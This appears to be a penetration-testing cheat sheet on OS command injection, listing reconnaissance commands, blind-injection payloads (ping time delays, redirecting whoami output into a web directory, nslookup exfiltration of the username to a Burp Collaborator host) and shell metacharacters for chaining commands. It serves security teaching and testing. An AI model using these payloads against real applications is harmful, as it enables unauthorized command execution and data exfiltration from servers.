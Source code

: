# ⭕ OS Command Injection

OS command injection (also known as shell injection) is a web security vulnerability that allows an attacker to execute arbitrary operating system (OS) commands on the server that is running an application, and typically fully compromise the application and all its data.

## <mark style="color:red;">Useful commands</mark>

| Purpose of command    |     Linux     |    Windows    |
| --------------------- | :-----------: | :-----------: |
| Name of current user  |     whoami    |     whoami    |
| Operating system      |    uname -a   |      ver      |
| Network configuration |  ifconfig -a  | ipconfig /all |
| Network connections   | netstat -tunl |  netstat -an  |
| Running processes     |     ps -ef    |    tasklist   |

## <mark style="color:red;">Blind OS command injection</mark>

| Method                                                                | Command                                                                                                                                  |
| --------------------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------- |
| Time delays                                                           | <pre><code>&#x26;ping -c 10 127.0.0.1
</code></pre><pre><code>||ping+-c+10+127.0.0.1+||
</code></pre>                                    |
| Redirecting output                                                    | <pre><code>||whoami>/var/www/images/output.txt||
</code></pre>                                                                           |
| <p>Out-Of-Band (OOB)<br>DNS lookup. You can use Burp Collaborator</p> | <p></p><pre><code>||nslookup+`whoami`.x.burpcollaborator.net||
</code></pre><pre><code>||nslookup+x.burpcollaborator.net||
</code></pre> |

## <mark style="color:red;">Useful meta characters</mark>

```
&
&&
|
||
;
Newline (0x0a or \n)
`injected command `
$( injected command )
```
